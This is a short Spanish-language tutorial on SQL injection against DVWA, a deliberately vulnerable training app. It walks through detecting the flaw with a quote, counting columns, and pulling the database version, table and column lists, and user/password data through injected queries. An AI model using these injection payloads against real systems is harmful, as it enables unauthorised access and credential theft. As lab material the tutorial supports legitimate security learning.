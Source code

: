 # SQL Injection en DVWA

Una **aproximación a la query** suele ser:

```SQL
SELECT * FROM <x> WHERE <y>=___ ;
```

o

```SQL
SELECT * FROM <x> WHERE <y> LIKE '%_____%';
```

## MySQL database

Una manera de conocer si la DB es **vulnerable**, es poniendo en la query un `'`. Si vemos que la DB devuelve algún error, eso puede ser indicio de que es vulnerable.

Es **importante** que, para que la query sea correcta sintácticamente, añadamos al principio un `'` y al final de la sentencia `--+`o `#` (para comentar el resto de la query en el backend).

Primero, es importante saber con cuantas **columnas** trabajamos o podemos trabajar. Para ello podemos jugar con la sentencia `ORDER BY`. 

Podemos conocer el **nombre y versión** de la DB añadiendo a la query

```SQL
SELECT database(), version()
```

Para obtener **[todas las tablas](https://dev.mysql.com/doc/refman/8.0/en/tables-table.html)** de la DB, se puede hacer añadiendo la consulta:

```SQL
SELECT table_name FROM information_schema.tables
```

Si queremos ver **todas las columnas de una tabla**, podemos hacerlo con la siguiente query:

```SQL
SELECT column_name FROM information_schema.columns
WHERE table_name=char(117,115,101,114,115)
```

En el ejemplo anterior, se intenta buscar todas las columnas de la tabla _users_, pero en la query no se puede poner tal cual _users_, si no que se ha de [pasar a decimal](https://cryptii.com/pipes/text-decimal). (_users en decimal es 117 115 101 114 115_)

Si deseamos obtener datos de alguna columna concreta (en este caso intentaremos obtener _user_ y _password_), deberemos añadir lo siguiente a la query:

```SQL
SELECT user, password FROM users
```

## Enlaces de interes
[SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

